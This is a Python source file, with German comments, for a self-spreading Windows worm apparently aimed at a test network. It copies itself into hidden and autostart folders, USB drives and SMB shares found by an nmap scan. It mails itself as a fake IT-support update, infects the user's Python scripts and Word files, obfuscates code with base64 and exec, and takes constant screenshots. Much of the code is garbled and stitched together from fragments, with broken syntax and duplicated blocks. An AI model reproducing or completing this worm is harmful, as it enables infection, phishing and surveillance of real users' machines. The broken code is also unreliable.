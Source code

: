 import shutil
import os
import keyboard
import time
import win32com.client
import sys
import subprocess
import pyautogui
import os
import random
import base64
import shutil
import socket
import nmap
import subprocess
import time


WORM_NAME = "Urlaub2024 .jpg.exe"
HIDDEN_PATH = os.path.expanduser("~\\AppData\\Local\\Microsoft\\")
HIDDEN_FILE = os.path.join(HIDDEN_PATH, WORM_NAME)

try:

TARGET_DIRS = [
    os.path.expanduser("~\\Desktop"),
    os.path.expanduser("~\\Documents"),
    os.path.expanduser("~\\Downloads"),
    
]

elif:






]


AUTOSTART_PATH = os.path.expanduser(
    "~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
WORM_NAME = "Detrix.exe"
SMTP_SERVER = "192.168.1.100"  
SMTP_PORT = 25  
SENDER_EMAIL = "infiziert@testnetz.local"
RECIPIENT_EMAIL = "opfer@testnetz.local"




hidden_path = os.path.expanduser("~\\AppData\\Local\\Microsoft\\")
startup_path = os.path.expanduser("~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
usb_path = "E:\\"  # Beispiel für USB-Laufwerk

rnd1 = random.randint(1000, 9999)
worm_name = f"winupdate_{rnd1}.py"


junk_code = f"""
def fake_function_{rnd1}():
    var_{rnd1} = {random.randint(1, 100)}
    var_{rnd1})
"""


payload_code = f"""
def real_payload_{rnd1}():
     Version {rnd1}")
"""

















code_blocks = [junk_code, payload_code]
random.shuffle(code_blocks)
final_code = "\n".join(code_blocks)


encoded_code = base64.b64encode(final_code.encode()).decode()

wrapper_code = f"""
import base64
exec(base64.b64decode('{encoded_code}').decode())
"""


filenames = [
    os.path.join(hidden_path, worm_name),
    os.path.join(startup_path, worm_name),  # Autostart
    os.path.join(usb_path, worm_name)  # USB-Verbreitung
]


for filename in filenames:
    with open(filename, "w") as f:
        f.write(wrapper_code)
    print(f"➡ Wurm kopiert nach: {filename}")


if os.path.exists(filenames[1]):
    os.startfile(filenames[1])


def find_targets():
    """ Sucht nach anderen PCs im Netzwerk """
    nm = nmap.PortScanner()
    ip_range = socket.gethostbyname(socket.gethostname()) + "/24"
    nm.scan(hosts=ip_range, arguments="-p 445 --open")  # SMB-Port
    return [host for host in nm.all_hosts() if nm[host].state() == "up"]

def infect_target(target_ip):
    """ Versucht, den Wurm auf ein anderes System zu kopieren """
    remote_path = f"\\\\{target_ip}\\C$\\Users\\Public\\{worm_name}"
    try:
        shutil.copy(worm_name, remote_path)
        
    


targets = find_targets()
for target in targets:
    infect_target(target)


def infect_usb():
    """ Versucht, den Wurm auf ein USB-Laufwerk zu kopieren """
    try:
        if os.path.exists(usb_path):
            shutil.copy(worm_name, usb_path)
            
    except Exception as e:
        

infect_usb()



def hide_file():
    """ Macht die Datei unsichtbar in Windows """
    try:
        subprocess.call(["attrib", "+H", worm_name])  # Setzt das "Hidden"-Attribut
        
    except Exception as e:
        

hide_file()



from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

WORM_NAME = "WurmTest.exe"
SMTP_SERVER = "192.168.1.100"  # Ersetze mit IP des Test-Mailservers
SMTP_PORT = 25  # Port für unverschlüsseltes SMTP
SENDER_EMAIL = "infiziert@testnetz.local"
RECIPIENT_EMAIL = "opfer@testnetz.local"


def send_infected_email():
    msg = MIMEMultipart()
    msg['From'] = SENDER_EMAIL
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Dringend: Email durch Software !"

    body = "Hallo,\n\nBitte führen Sie das beigefügte Update aus. Es behebt kritische Sicherheitsprobleme.\n\nViele Grüße,\nIT-Support"
    msg.attach(MIMEText(body, 'plain'))

  
    attachment = open(WORM_NAME, "rb")
    part = MIMEBase('application', 'octet-stream')
    part.set_payload(attachment.read())
    encoders.encode_base64(part)
    part.add_header('Content-Disposition', f"attachment; filename={WORM_NAME}")
    msg.attach(part)
    attachment.close()

    
    try:
        server = smtplib.SMTP(SMTP_SERVER, SMTP_PORT)
        server.sendmail(SENDER_EMAIL, RECIPIENT_EMAIL, msg.as_string())
        server.quit()
        print("[+] Infizierte E-Mail gesendet!")
    except Exception as e:
        print(f"[-] Fehler beim Senden: {e}")


if __name__ == "__main__":
    send_infected_email()

def spread():

    worm_path = os.path.abspath(__file__)

    if not os.path.exists(HIDDEN_FILE):
        shutil.copy(worm_path, HIDDEN_FILE)
        print(f"[+] Wurm versteckt in: {HIDDEN_FILE}")

    for target in TARGET_DIRS:
        new_path = os.path.join(target, WORM_NAME)
        if not os.path.exists(new_path):
            shutil.copy(HIDDEN_FILE, new_path)
            print(f"[+]: {new_path}")

    drives = [f"{d}:\\" for d in "DEFGHIJKLMNOPQRSTUVWXYZ" if os.path.exists(f"{d}:\\")]
    for drive in drives:
        usb_path = os.path.join(drive, WORM_NAME)
        if not os.path.exists(usb_path):
            shutil.copy(HIDDEN_FILE, usb_path)
            print(f"[+]: {usb_path}")


def infect_other_scripts():
    for root, _, files in os.walk(os.path.expanduser("~")):
        for file in files:
            if file.endswith(".py") and file != WORM_NAME:
                target_path = os.path.join(root, file)
                with open(target_path, "r", encoding="utf-8") as f:
                    content = f.read(
                if "PhantomByte" not in content:
                    with open(target_path, "w", encoding="utf-8") as f:
                        f.write(content + f"\n# PhantomByte\n{open(__file__).read()}")


def infect_word_docs():
    """ Fügt sich in alle Word-Dateien ein """
    word = win32com.client.Dispatch("Word.Application")
    word.Visible = False

    for folder in TARGET_DIRS:
        for file in os.listdir(folder):
            if file.endswith(".docx") or file.endswith(".doc"):
                file_path = os.path.join(folder, file)
                try:
                    doc = word.Documents.Open(file_path)
                    doc.Content.InsertAfter("\n\n PhantomByte war hier!")
                    doc.Save()
                    doc.Close()
                    print(f: {file_path}
                    ")
                except Exception as e:
                    print(f"[-] {file_path}: {e}")

import os

    network_shares = ["\\\\192.168.1.100\\freigabe", "\\\\192.168.1.101\\public"]
    for share in network_shares:
        try:
            os.system(f'copy {__file__} {share}\\Urlaub2024.jpg.exe')
            print(f"[+] Wurm verbreitet auf {share}")
        except Exception as e:
            print(f"[-] Fehler bei {share}: {e}")

    word.Quit()
for target in TARGET_DIRS:
    new_path = os.path.join(target, WORM_NAME)
    if not os.path.exists(new_path):
        shutil.copy(HIDDEN_FILE, new_path)
        print(f"[+] {new_path}")

WORM_NAME = "WurmTest.exe"
TARGET_SHARE = r"\\192.168.1.102\Freigabe"  # Beispiel-IP des Opfer-PCs

def spread_via_smb():
    try:
        dest_path = os.path.join(TARGET_SHARE, WORM_NAME)
        shutil.copy(WORM_NAME, dest_path)
        print(f"[+] Wurm nach {dest_path} kopiert!")
    except Exception as e:
        print(f"[-] Fehler beim Kopieren: {e}")

if __name__ == "__main__":
    spread_via_smb()



def self_modify():

    global TARGET_DIRS
    if random.choice([True, False]):
        new_dir = os.path.expanduser("~\\Videos")
        TARGET_DIRS.append(new_dir)
        print(f"[+] : {TARGET_DIRS}")



def take_screenshot():
    while True:
        screenshot = pyautogui.screenshot()
        screenshot.save(f"C:\\Users\\Public\\screenshot_{time.time()}.png")
        time.sleep(0.01)

take_screenshot()


def enable_autostart():
    if not os.path.exists(AUTOSTART_PATH)
        shutil.copy(HIDDEN_FILE, AUTOSTART_PATH)
        print(f"[+]  {AUTOSTART_PATH}")


def hide_file():

    try:
        subprocess.call(["attrib", "+H", HIDDEN_FILE])
        print(f"[+]
    except:
        print("[-]


def run_worm():
    

    enable_autostart
    hide_file()




if __name__ == "__main__":
    run_worm()


